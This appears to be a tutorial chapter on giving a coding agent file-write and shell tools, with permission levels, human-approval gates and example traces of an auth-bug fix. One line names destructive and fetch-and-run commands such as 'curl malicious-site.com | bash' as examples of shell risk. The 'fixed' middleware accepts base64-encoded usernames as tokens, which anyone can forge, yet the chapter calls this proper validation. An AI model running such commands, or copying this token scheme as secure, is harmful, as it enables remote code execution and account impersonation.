




# Chapter 5: File System + Shell

## You Are the Skill

You're a recipe card taped to the wall. The find-bug skill from Chapter 4. Seven steps, crisp and clean:

1. Search for code related to the symptom
2. Read the most relevant file
3. Search for related tests
4. Read the test file
5. **Write a test that proves the bug exists**
6. **Fix the middleware**
7. **Run the tests**

The agent picks you up, reads your steps, starts executing. Steps 1 through 4 go beautifully — `search_code` finds the file, `read_file` loads it, the LLM spots the bug. The agent reaches Step 5.

Write a test.

It calls `write_file`.

```
[tool] Agent selected: write_file
[tool] Arguments: { "path": "tests/middleware_test.pseudo", "content": "..." }
[tool] Error: Tool not found: write_file
```

Not "permission denied." Not "file locked." *Tool not found.* The schema exists — you defined it in Chapter 3. But there's no implementation behind it. `write_file` is a name on a door with nothing behind it.

The agent tries Step 6. Fix the middleware.

```
[tool] Agent selected: write_file
[tool] Error: Tool not found: write_file
```

Step 7. Run the tests.

```
[tool] Agent selected: execute_shell
[tool] Error: Tool not found: execute_shell
```

Three steps. Three dead ends. The skill has a plan. The tools are hollow.

Your agent can *see* the bug. It can *describe* the fix. It can write a paragraph explaining exactly what to change and why. And then it stops — because a paragraph doesn't fix a bug. A file write fixes a bug.



tbh, an agent that describes fixes instead of making them is just a consultant.

---

## What You'll Learn

You're going to give the agent hands. By the end of this chapter, it will fix the auth bug end-to-end — write the code, run the tests, report the results.

- Implementing `write_file`, `delete_file`, and `execute_shell` as real tools
- The permission model — not all tools are equal
- Action gates — dangerous operations pause for human approval
- Idempotent writes — safe to retry, check before modifying
- The end-to-end payoff: agent finds, fixes, and verifies the auth bug

---

## Give It Hands

Three tools. Same `Tool` interface from Chapter 3 — `execute(args) -> ToolResult`. Nothing new to learn architecturally. What's new is that these tools change things.

### write_file

```
write_file SimpleTool:
    name: "write_file"
    description: "Write content to a file, creating it if it doesn't exist"
    parameters:
        path: string (required)
        content: string (required)
    permission: write

    execute({ path, content }) -> ToolResult
```

It writes. It creates parent directories if they don't exist. It returns what it did:

```
{ "written": true, "path": "tests/hello.pseudo", "bytes": 62 }
```

Build it. Register it. Run it:

```
$ tbh-code --codebase ./todo-api --ask "Create a file tests/hello.pseudo with a simple test"

[tool] Agent selected: write_file
[tool] Arguments: { "path": "tests/hello.pseudo",
                    "content": "# Hello test\n\nfunction test_hello():\n    assert 'hello' == 'hello'\n" }
[tool] Result: success=true
  { "written": true, "path": "tests/hello.pseudo", "bytes": 62 }

{
  "answer": "Created tests/hello.pseudo with a simple hello test.",
  "confidence": 1.0,
  "sources": ["tests/hello.pseudo"]
}
```

The agent wrote a file. An actual file, on disk, that you can open and read. This sounds trivial. It isn't. Every previous chapter — the agent's output was text. A message. An opinion. Now it's a side effect. The file exists whether or not you read the agent's response.

### execute_shell

```
execute_shell SimpleTool:
    name: "execute_shell"
    description: "Execute a shell command and capture output"
    parameters:
        command: string (required)
        timeout: int (optional, default: 30) — seconds
        working_dir: string (optional, default: ".")
    permission: dangerous

    execute({ command, timeout, working_dir }) -> ToolResult
```

It runs a command. It captures everything — stdout, stderr, exit code:

```
$ tbh-code --codebase ./todo-api --ask "Run the test suite and show me the results"

[tool] Agent selected: execute_shell
[tool] Arguments: { "command": "run-tests tests/", "timeout": 30 }
[tool] Result: success=false
  {
    "stdout": "Running tests...\n  PASS  test_create_task\n  PASS  test_get_tasks\n  PASS  test_register_user\n  PASS  test_login_user\n  FAIL  test_auth_rejects_invalid_token\n\n4 passed, 1 failed",
    "stderr": "",
    "exit_code": 1
  }

{
  "answer": "The test suite ran 5 tests: 4 passed and 1 failed.
    Failed: test_auth_rejects_invalid_token — the auth middleware
    currently accepts any non-empty token without validation.",
  "confidence": 0.95,
  "sources": ["tests/auth_test.pseudo"]
}
```

stdout, stderr, exit_code. The agent doesn't just know the tests failed — it knows *which* test failed, *why* it failed, and can reason about the failure. That's not "run a command." That's "observe the result and think about what it means."

Notice `success=false` — exit code 1 means the command reported failure. The tool didn't crash. It captured the failure and handed it to the agent as data. Failure is information, not an error.

### delete_file

```
delete_file SimpleTool:
    name: "delete_file"
    description: "Delete a file at the given path"
    parameters:
        path: string (required)
    permission: dangerous

    execute({ path }) -> ToolResult
```

Deletes a file. Verifies it's gone. Returns what it did.

Three tools. Same interface. But did you notice the `permission` field? `write_file` is `write`. `delete_file` and `execute_shell` are `dangerous`. That's not decoration.

---

## Not All Tools Are Equal

In Chapters 3 and 4, every tool was `safe`. `read_file` can't break anything. `search_code` is a read-only lookup. `list_files` just lists. You could run them in a loop a thousand times and the codebase would be unchanged.

`write_file` changes a file. `delete_file` destroys a file. `execute_shell` can do *anything* — `rm -rf /`, `curl malicious-site.com | bash`, `git push --force`. The risk levels are not the same.

```
PermissionLevel: enum("safe", "write", "dangerous")
```

Three levels. Every tool gets one:

| Tool | Permission | Why |
|------|-----------|-----|
| read_file | safe | Read-only, no side effects |
| list_files | safe | Read-only, no side effects |
| search_code | safe | Read-only, no side effects |
| write_file | write | Creates or modifies files |
| delete_file | dangerous | Destroys data, irreversible |
| execute_shell | dangerous | Arbitrary command execution |

The `permission` field was defined on the Tool interface back in Chapter 3. It was always there. Now it matters.



Skills inherit the highest permission level of any tool they use. The find-bug skill uses only `read_file` and `search_code` — permission is `safe`. A fix-bug skill that uses `write_file` and `execute_shell`? Permission is `dangerous`.

---

## The Gate

Here's the thing about an LLM with shell access: it's a stochastic process controlling your filesystem. It usually does the right thing. "Usually" is not a word you want next to `rm -rf`.

The `ActionGate` sits between the agent's decision to use a tool and the tool's execution:

```
ActionGate:
    check(tool, args) -> GateResult

GateResult:
    approved: bool
    reason: string
```

Before every `tool.execute()`, the gate checks:

```
agent_execute(tool, args) -> ToolResult:
    gate_result = action_gate.check(tool, args)

    if not gate_result.approved:
        return ToolResult(
            output=null,
            success=false,
            error="Action blocked: {gate_result.reason}"
        )

    return tool.execute(args)
```

What does `check` look like? Simple:

```
ActionGate.check(tool, args):
    if tool.permission == "safe":
        return GateResult(approved=true, reason="safe operation")

    if tool.permission == "write":
        display_warning("Agent wants to write: {args}")
        return GateResult(
            approved=prompt_user("Allow? [y/n]"),
            reason="write operation"
        )

    if tool.permission == "dangerous":
        display_danger("DANGEROUS: Agent wants to execute: {args}")
        return GateResult(
            approved=prompt_user("Allow? [y/n]"),
            reason="dangerous operation"
        )
```

Watch it work:

```
$ tbh-code --codebase ./todo-api --ask "Delete all test files"

[tool] Agent selected: delete_file
[tool] Arguments: { "path": "tests/tasks_test.pseudo" }
[gate] DANGEROUS operation: Agent wants to delete tests/tasks_test.pseudo
[gate] Allow? [y/n] n
[gate] DENIED

[tool] Result: success=false, error="Action blocked: dangerous operation denied by user"

{
  "answer": "I attempted to delete tests/tasks_test.pseudo but the
    operation was denied. The file was NOT deleted.",
  "confidence": 1.0,
  "sources": []
}
```

The agent wanted to delete a test file. The gate said: "Hey, this is destructive. You sure?" You said no. The file still exists. The agent reported the denial cleanly — no crash, no sneaky retry, no trying a different approach to get around you.

That last part matters. The agent treats a denied gate as a tool failure, not an obstacle to overcome. It doesn't try `execute_shell("rm tests/tasks_test.pseudo")` as a workaround. The gate result is final.

Each tool call gets its own gate check. The agent doesn't get blanket approval:

```
$ tbh-code --codebase ./todo-api --ask "Write a config file and verify it"

[tool] Agent selected: write_file
[tool] Arguments: { "path": "config.pseudo", "content": "port: 3000\ndb: sqlite\n" }
[gate] write operation: Agent wants to write config.pseudo
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  { "written": true, "path": "config.pseudo", "bytes": 22 }

[tool] Agent selected: execute_shell
[tool] Arguments: { "command": "cat config.pseudo", "timeout": 5 }
[gate] DANGEROUS operation: Agent wants to execute: cat config.pseudo
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  { "stdout": "port: 3000\ndb: sqlite\n", "stderr": "", "exit_code": 0 }
```

Two operations. Two gate checks. Approving the write didn't auto-approve the shell command. Every dangerous action is a conscious decision.

For automated testing and CI, there's an escape hatch: `tbh-code --auto-approve`. All gates pass automatically. Use it in tests. Never in production.

---

## Writes That Don't Repeat Themselves

Agent loops retry. Skills re-execute after partial failures. The user runs the same task twice. If `write_file` blindly writes every time, you get redundant disk writes, misleading "file changed" reports, and noisy diffs.

The fix: check before you write.

```
# Inside write_file.execute():
if file_exists(path) and read(path) == content:
    return ToolResult(
        output={ written: false, reason: "content unchanged" },
        success=true,
        error=null
    )
```

The file already has the target content? Skip. Return success — the desired state exists. The `written: false` flag tells the agent it was a no-op.

```
$ tbh-code --codebase ./todo-api --ask "Write 'port: 3000\ndb: sqlite\n' to config.pseudo"

[tool] Agent selected: write_file
[tool] Arguments: { "path": "config.pseudo", "content": "port: 3000\ndb: sqlite\n" }
[gate] write operation: Agent wants to write config.pseudo
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  { "written": false, "reason": "content unchanged" }

{
  "answer": "The file config.pseudo already has the exact content you
    specified. No write was needed.",
  "confidence": 1.0,
  "sources": ["config.pseudo"]
}
```

Same content. No write. Safe to retry any number of times. This is **idempotency** — the operation produces the same result whether run once or ten times.

After the write, verify:

```
# Write the file
write(path, content)

# Verify the write
actual = read(path)
if actual != content:
    return ToolResult(
        output=null,
        success=false,
        error="Write verification failed — content mismatch"
    )
```

Write, then read back and compare. If the filesystem ate your data, you know immediately. Trust, but verify.

---

## The Moment

Everything you've built across five chapters leads here. Chapter 1 — the agent guessed at the bug and got everything wrong. Chapter 2 — the agent read the code and found the bug, but couldn't fix it. Now:

```
$ tbh-code --codebase ./todo-api --ask "Fix the auth middleware bug so it
  properly validates tokens, then run the tests"
```

Follow every line of this trace. This is your agent working.

```
Loading codebase from ./todo-api ...
  Registered 6 tools + 3 skills
  Permission model: active
  Action gates: enabled

[skill] Matched task to skill: find-bug (score: 0.75)
[skill] Executing skill: find-bug
```

The agent matches the task to the find-bug skill. Steps 1 through 4:

```
[skill] Step 1/4: Search for code related to the symptom
  [tool] search_code({ "pattern": "auth_middleware", "path": "src/" })
  [tool] Result: success=true
    [
      { "file": "src/middleware/auth.pseudo", "line": 8,
        "content": "function auth_middleware(req, res, next):" }
    ]

[skill] Step 2/4: Read the most relevant file
  [tool] read_file({ "path": "src/middleware/auth.pseudo" })
  [tool] Result: success=true

[skill] Step 3/4: Search for related tests
  [tool] search_code({ "pattern": "auth_middleware", "path": "tests/" })
  [tool] Result: success=true (0 matches)

[skill] Step 4/4: Read the test file if found
  (skipped — no test file for middleware)

[skill] Skill "find-bug" completed (3/4 steps, 1 skipped)
```

The skill did its job — found the file, read the code, checked for tests. All `safe` operations. No gates needed. Now the agent has the context it needs and starts reasoning:

```
[agent] Bug identified: auth_middleware accepts any non-empty token
        and hardcodes req.user to { id: 1 }. Need to:
        1. Read auth routes to understand token format
        2. Write fixed middleware
        3. Write tests
        4. Run tests
```

It reads the auth routes to understand how tokens are generated:

```
[tool] Agent selected: read_file
[tool] Arguments: { "path": "src/routes/auth.pseudo" }
[tool] Result: success=true
```

Now it knows: login generates tokens with `base64_encode(username)`. The middleware should decode that. Time to write the fix:

```
[tool] Agent selected: write_file
[tool] Arguments: {
  "path": "src/middleware/auth.pseudo",
  "content": "# Authentication Middleware\n# Validates tokens on protected routes\n\nimport db\nimport base64\n\nfunction auth_middleware(req, res, next):\n    token = req.headers.get('authorization')\n\n    if not token or token == '':\n        return res.status(401).json({ error: 'missing token' })\n\n    # Decode the token (auth routes encode username as base64)\n    try:\n        username = base64_decode(token)\n    except:\n        return res.status(401).json({ error: 'invalid token format' })\n\n    if not username or username == '':\n        return res.status(401).json({ error: 'invalid token' })\n\n    # Look up the actual user\n    user = db.find_user(username)\n    if not user:\n        return res.status(401).json({ error: 'user not found' })\n\n    req.user = user\n    next()\n"
}
[gate] write operation: Agent wants to write src/middleware/auth.pseudo
[gate] --- FILE DIFF ---
[gate]   - token = req.headers['authorization']
[gate]   - if token and token != '':
[gate]   -     req.user = { id: 1, username: 'unknown' }
[gate]   + username = base64_decode(token)
[gate]   + user = db.find_user(username)
[gate]   + req.user = user
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  { "written": true, "path": "src/middleware/auth.pseudo", "bytes": 487 }
```

The gate shows you the diff. You can see exactly what's changing — the hardcoded user stub replaced with actual token decoding and user lookup. You approve.

Now tests:

```
[tool] Agent selected: write_file
[tool] Arguments: {
  "path": "tests/middleware_test.pseudo",
  "content": "# Auth Middleware Tests\n\nfunction test_rejects_missing_token():\n    req = mock_request(headers={})\n    res = mock_response()\n    auth_middleware(req, res, next)\n    assert res.status_code == 401\n    assert res.body.error == 'missing token'\n\nfunction test_rejects_empty_token():\n    req = mock_request(headers={ 'authorization': '' })\n    res = mock_response()\n    auth_middleware(req, res, next)\n    assert res.status_code == 401\n\nfunction test_rejects_invalid_token():\n    req = mock_request(headers={ 'authorization': 'not-base64-!!!' })\n    res = mock_response()\n    auth_middleware(req, res, next)\n    assert res.status_code == 401\n\nfunction test_accepts_valid_token():\n    db.save_user({ username: 'alice', password: 'hashed' })\n    token = base64_encode('alice')\n    req = mock_request(headers={ 'authorization': token })\n    res = mock_response()\n    auth_middleware(req, res, next)\n    assert req.user.username == 'alice'\n"
}
[gate] write operation: Agent wants to write tests/middleware_test.pseudo
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  { "written": true, "path": "tests/middleware_test.pseudo", "bytes": 723 }
```

Four tests. Missing token, empty token, invalid token, valid token. The agent didn't just write a fix — it wrote proof that the fix works.

Now the moment of truth:

```
[tool] Agent selected: execute_shell
[tool] Arguments: { "command": "run-tests tests/", "timeout": 30 }
[gate] DANGEROUS operation: Agent wants to execute: run-tests tests/
[gate] Allow? [y/n] y
[gate] Approved
[tool] Result: success=true
  {
    "stdout": "Running tests...\n  PASS  test_create_task\n  PASS  test_get_tasks\n  PASS  test_register_user\n  PASS  test_login_user\n  PASS  test_rejects_missing_token\n  PASS  test_rejects_empty_token\n  PASS  test_rejects_invalid_token\n  PASS  test_accepts_valid_token\n\n8 passed, 0 failed",
    "stderr": "",
    "exit_code": 0
  }
```

Eight tests. Eight passes. Zero failures.

```json
{
  "answer": "Fixed the auth middleware bug and all tests pass.\n\nWhat I did:\n1. Found the bug: auth_middleware accepted any non-empty token and hardcoded req.user\n2. Wrote the fix (src/middleware/auth.pseudo):\n   - Token is now decoded from base64\n   - Invalid/malformed tokens are rejected with 401\n   - User is looked up from the database by username\n   - req.user is set to the actual user, not a hardcoded stub\n3. Added tests (tests/middleware_test.pseudo):\n   - test_rejects_missing_token\n   - test_rejects_empty_token\n   - test_rejects_invalid_token\n   - test_accepts_valid_token\n4. Ran the full test suite: 8 passed, 0 failed\n\nThe auth middleware now properly validates tokens and sets the correct user.",
  "confidence": 0.95,
  "sources": [
    "src/middleware/auth.pseudo",
    "tests/middleware_test.pseudo"
  ]
}
```

Read that one more time. The agent found the bug, understood the token format by reading related code, wrote a fix, wrote tests, ran the tests, and reported the results. Every write and execute was gated — you approved each one. The existing tests still pass. The new tests prove the fix works.

This is not a description of what you should do. This is the agent doing it.

---

## See How Far You've Come

Pull up the outputs from every chapter:

|          | Ch 1 One-Shot | Ch 1 Loop | Ch 2 Agent | Ch 5 Agent |
|----------|--------------|-----------|------------|------------|
| File     | `auth_handler.py` (invented) | "I can't confirm" | `src/middleware/auth.pseudo` (correct) | `src/middleware/auth.pseudo` (correct) |
| Bug      | JWT signature (invented) | "token validation" (vague) | Accepts any token (correct) | Accepts any token (correct) |
| Fix      | — | — | "Here's what you should change..." | **Wrote the fix** |
| Tests    | — | — | — | **Wrote 4 tests, all pass** |
| Verified | — | — | — | **8/8 tests pass** |

Chapter 1 guessed. Chapter 2 found. Chapter 5 fixed. That's the progression from opinion to action to verified result.

---

## Now Name What You Built

You added three tools and two mechanisms. Let's put names on them.

The tools — `write_file`, `delete_file`, `execute_shell` — are just more SimpleTools. Same interface, same `execute(args) -> ToolResult`. Nothing architecturally new. What's new is the *category* of action. Read tools observe. Write and execute tools *change the world*.

The **permission model** classifies every tool by how much damage it can do. Safe tools run freely. Write tools get scrutiny. Dangerous tools get gates.

The **action gate** is a human-in-the-loop checkpoint. It sits between the agent's decision and the tool's execution. It's not the agent deciding whether to proceed — it's *you* deciding whether to let the agent proceed. The agent proposes. You approve.



Together, the permission model and action gate form a **trust hierarchy**. The agent has full autonomy over reads. Limited autonomy over writes. Zero autonomy over destructive operations. That's the right default. Chapter 14 revisits this for production — sandboxing, allow-lists, audit logs. For now, the gate is enough.

**Idempotent writes** make the agent safe to retry. The loop might call `write_file` twice with the same content. The skill might re-execute after a partial failure. Idempotency means the second call is a no-op — same result, no side effects. Check before modifying. Always.

---

## The Spec

Full spec for this chapter in `spec/ch05/`:

```
spec/ch05/
├── prompt-template.md     What to build (language-agnostic)
├── interface-spec.md      write_file, delete_file, execute_shell,
│                          PermissionLevel, ActionGate contracts
├── expected-output.txt    File writes, shell execution, gates, end-to-end fix
└── validation/
    └── test_ch05.py       Tests: tool execution, permission model,
                           gate behavior, idempotent writes, end-to-end
```

---

## Try It

1. **Write and verify.** Have the agent create a file, then ask it to read the file back. Does the content match? Now ask it to write the same content again. Does it skip?

2. **Deny a gate.** Ask the agent to run `execute_shell("ls -la")`. When the gate prompts, say no. Does the agent handle the denial gracefully? Does it try a different approach?

3. **Chain operations.** Ask: *"Add a health check endpoint to the todo-api and write a test for it."* How many gate prompts do you get? Does the agent write the route, write the test, and run the suite?

4. **Break the timeout.** Have the agent run `execute_shell("sleep 60", timeout=5)`. Does the timeout fire? Does the agent get a useful error?

5. **Test idempotency in a loop.** Set `max_iterations` to 5 and give the agent a task that writes a file. Does it write the file once and skip on subsequent iterations?

---

## Three Ways to Lose Control

### The YOLO Agent

Auto-approve everything. No gates. The agent runs `rm -rf tests/` and you find out when you try to run the test suite tomorrow.

**Why it happens:** Gates are annoying. Clicking "y" every time feels like overhead. So you set `--auto-approve` for "just this session" and forget to turn it off.

**Fix:** Gates are the feature, not the overhead. A few seconds of confirmation is cheaper than restoring deleted files from a backup you might not have. Use `--auto-approve` in CI only.

### The Hollow Schema

Tools defined in the schema but not implemented. The LLM sees `write_file` in its tool list, calls it, and gets "tool not found." It tries again. And again. Five iterations of calling a tool that doesn't exist.

**Why it happens:** You defined the tool interface in Chapter 3 but never wired up the implementation. The schema promises something the system can't deliver.

**Fix:** If a tool appears in the registry, it must have a working `execute()`. If it's not implemented yet, don't register it. An empty tool list is honest. A lying tool list wastes iterations.

### The Firehose Shell

`execute_shell` with no timeout. The agent runs a build that takes 20 minutes. Or a command that hangs forever waiting for input. Or a recursive find on `/`.

**Why it happens:** The default timeout is generous and some commands are expensive. Without a timeout, `execute_shell` is a blocking call with no escape.

**Fix:** Always set a timeout. Default to 30 seconds. Let the agent specify longer for known-slow operations. When the timeout fires, kill the process and return an error the agent can reason about. A timed-out command is information — "this takes longer than expected."

---

## It Forgets Everything

Your agent reads code, reasons about bugs, writes fixes, runs tests. It went from guessing to acting to verifying. That's a real tool. Something you could actually use.

Now close the terminal. Open it again. Ask the same question.

```
$ tbh-code --codebase ./todo-api --ask "What did you fix last time?"

{
  "answer": "I don't have any record of previous sessions.
    I can only analyze the current state of the codebase.",
  "confidence": 0.8,
  "sources": []
}
```

Gone. The fix it wrote, the tests it ran, the reasoning it used, the approach that worked — all gone. Tomorrow it starts from scratch. It'll re-discover the same patterns, re-read the same files, re-learn the same codebase structure. Every session is day one.

It's like a developer who fixes a critical bug on Friday and comes in Monday with total amnesia. Not "I forgot the details" — "I have never seen this codebase before."

Chapter 6 gives the agent memory. Not just conversation history within a session — persistent memory across sessions. What it learned. What worked. What to try next time. The agent that fixed the auth bug today will remember that it fixed the auth bug tomorrow.

---

> **tbh-code after this chapter:**



> An agent that reads, writes, and executes. `write_file` and `execute_shell` are real tools now — same interface, higher stakes. The permission model classifies every tool by risk. Action gates pause for human approval on anything dangerous. Idempotent writes are safe to retry. The agent found the auth bug, wrote the fix, wrote the tests, ran the tests — 8/8 pass. Milestone 2 complete: tools and skills are wired end to end. What it can't do: remember any of this tomorrow.

---

## References

### Agent Code Editing & Benchmarks

1. **"SWE-bench: Can Language Models Resolve Real-World GitHub Issues?"** — Jimenez, Yang, Wettig et al., Princeton, ICLR 2024. The definitive benchmark for agents that edit codebases to fix real bugs. [arxiv.org/abs/2310.06770](https://arxiv.org/abs/2310.06770)

2. **"SWE-agent: Agent-Computer Interfaces Enable Automated Software Engineering"** — Yang, Jimenez et al., Princeton/Stanford, NeurIPS 2024. Introduces the Agent-Computer Interface (ACI) concept — custom file-editing and shell commands designed for LLM agents. [arxiv.org/abs/2405.15793](https://arxiv.org/abs/2405.15793)

3. **"OpenHands: An Open Platform for AI Software Developers as Generalist Agents"** — Wang et al., ICLR 2025. Open-source agent platform with sandboxed Docker execution for bash and code. [arxiv.org/abs/2407.16741](https://arxiv.org/abs/2407.16741)

### Agent Safety & Permission Models

4. **"Identifying the Risks of LM Agents with an LM-Emulated Sandbox (ToolEmu)"** — Ruan et al., ICLR 2024 Spotlight. Even the safest agents fail 23.9% of the time — underscores the need for permission models and action gates. [arxiv.org/abs/2309.15817](https://arxiv.org/abs/2309.15817)

5. **"ToolSword: Unveiling Safety Issues of Large Language Models in Tool Learning"** — Ye et al., ACL 2024. Categorizes tool-use safety risks into input/execution/output stages — maps to the safe/write/dangerous permission tiers. [arxiv.org/abs/2402.10753](https://arxiv.org/abs/2402.10753)

6. **"AgentSpec: Customizable Runtime Enforcement for Safe and Reliable LLM Agents"** — Wang, Poskitt, Sun, ICSE 2026. DSL for specifying runtime safety constraints on agent actions — the academic formalization of action gates. [arxiv.org/abs/2503.18666](https://arxiv.org/abs/2503.18666)

7. **"Fault-Tolerant Sandboxing for AI Coding Agents: A Transactional Approach"** — Yan (2025). Wraps agent file-system actions in atomic transactions with snapshot rollback — 100% rollback success rate. [arxiv.org/abs/2512.12806](https://arxiv.org/abs/2512.12806)

8. **"AEGIS: No Tool Call Left Unchecked"** — (2026). Framework-agnostic interception layer that scans tool-call arguments before execution — a concrete implementation of the dangerous-action gate pattern. [arxiv.org/abs/2603.12621](https://arxiv.org/abs/2603.12621)

